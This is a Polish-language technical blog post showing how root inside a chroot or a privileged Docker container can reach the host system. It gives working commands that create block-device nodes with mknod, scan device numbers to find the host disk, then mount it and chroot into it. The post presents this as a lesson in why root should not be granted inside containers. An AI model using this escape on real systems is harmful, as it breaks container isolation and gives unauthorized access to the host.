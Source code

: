 Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-03-04
:Status: published
:slug: chroot-breaking-1


W tym poście pokażę jak mając *root* w *chroot* dostać się do systemu nadzorcy.  
Tym samym chcę pokazać, dlaczego nie należy przyznawać praw administratora użytkownikowi nawet w *chroot*.

Crash course
------------

.. youtube:: TQRcC2OEHn8

Ponieważ *docker* (podobnie jak większość technologi kontenerowych) używa *chroot*-a, wyjście z *chroot* czy *docker* sprowadza się do tej samej metody.
Poniższa metoda wymaga posiadania konta *root* w kontenerze uruchomionego z uprawnieniami *privileged* (w przypadku *docker*)

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Analiza metody
--------------

.. youtube:: CVRyg4fYdq4

Metoda ta wykorzystuje *chroot* do *filesystem*-u systemu głównego.
Ponieważ w *chroot* najczęściej nie mamy zamontowanego katalogu ``/dev/``, a tym samym, nie możemy zamontować *filesystem*-u nadzorcy, musimy samodzielnie utworzyć urządzenie odpowiadające dyskowi z tymże *filesystem*-em.

Urządzenia w Linuksie są specjalnymi plikami.
W kontekście urządzeń, najczęściej wyróżniamy urządzenia blokowe oraz znakowe.
Urządzenia znakowe, jak sama nazwa wskazuje, prowadzą komunikację znak po znaku, natomiast urządzenia blokowe poprzez bloki.
Najczęściej również urządzenia znakowe pozwalają jedynie na odczyt i zapis. Takimi urządzeniami mogą być mysz, klawiatura, urządzenie ``/dev/random``, pseudo-terminale.
Urządzenia blokowe najczęściej pozwalają na adresowanie oraz dowolny dostęp. Przykładem takiego urządzenia jest np: dysk twardy, cdrom.

Każdy specjalny plik reprezentujący urządzenie jest określany przez trzy parametry:

- typ: czy jest to urządzenie blokowe, czy znakowe
- major: numer główny typu urządzenia
- minor: numer pomocniczy typu urządzenia

Jądro systemu Linuks bazując na typie oraz numerach major i minor wie do którego sterownika przekierować obsługę operacji na danym urządzeniu.
Lista zdefiniowanych numerów major i minor wraz z typami znajduje się w `dokumentacji jądra Linuksa`_

Aby utworzyć specjalny plik urządzenia, należy użyć polecenia ``mknod``.
I tutaj pojawia się problem.
Ponieważ musimy znać major i minor dysku, dla którego chcemy utworzyć plik urządzenia, dlatego *odgadnięcie* tych wartości jest jedyną trudnością jaka nas czeka.
Posiłkując się dokumentacją widzimy, że urządzenia blokowe o majorze 3, to są dyski IDE, natomiast major 8 to są dyski SCSI.
Warto rozpocząć szukanie odpowiedniego dysku od tych wartości.
Jeżeli nie jest to żaden ze standardowych dysków, można w pętli utworzyć wszystkie urządzenia próbując znaleźć odpowiednie.

.. code-block:: console

    # docker run --rm -it --privileged centos /bin/bash
    # mkdir /tmp/devices
    # cd /tmp/devices/
    # for i in $(seq 1 300); do mknod device_$i b $i 0; done
    # ls -l
    brw-r--r--. 1 root root   1, 0 Feb 10 16:57 device_1
    brw-r--r--. 1 root root  10, 0 Feb 10 16:57 device_10
    brw-r--r--. 1 root root 100, 0 Feb 10 16:57 device_100
    brw-r--r--. 1 root root 101, 0 Feb 10 16:57 device_101
    brw-r--r--. 1 root root 102, 0 Feb 10 16:57 device_102
    brw-r--r--. 1 root root 103, 0 Feb 10 16:57 device_103
    brw-r--r--. 1 root root 104, 0 Feb 10 16:57 device_104
    (...)
    # fdisk  -l * 2>/dev/null
    Disk device_1: 16 MB, 16777216 bytes, 32768 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    Disk device_253: 44.0 GB, 44023414784 bytes, 85983232 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk label type: dos
    Disk identifier: 0x0009b93d
    
          Device Boot      Start         End      Blocks   Id  System
    device_253p1   *        2048    83886079    41942016   83  Linux

Widzimy, że tylko dwa urządzenia zostały rozpoznane: ``device_1`` oraz ``device_253``.
``device_1`` to ``RAM disk``, więc nas nie interesuje, natomiast drugie urządzenie wygląda jak dysk nadzorcy.
Gdyby nie udało się tutaj znaleźć interesującego nas dysku, należałoby rozszerzyć poszukiwania o numery minorów inne niż 0.
Ponieważ minor 0 oznacza cały dysk, a my musimy uzyskać dostęp do partycji, musimy utworzyć urządzenie tejże partycji.

.. code-block:: console

    # mknod device_253_1 b 253 1

Mając takie urządzenie, możemy przystąpić do standardowej procedury wykonania *chroot*, czyli zamontowanie partycji oraz wykonanie polecenia ``chroot``.

.. code-block:: console

    # mount device_253_1 /mnt/
    # chroot /mnt/ /bin/bash

Tym sposobem udało nam się dostać do systemu nadzorcy wychodząc z *chroot* w którym posiadaliśmy prawa *root*.

.. _dokumentacji jądra Linuksa: https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt
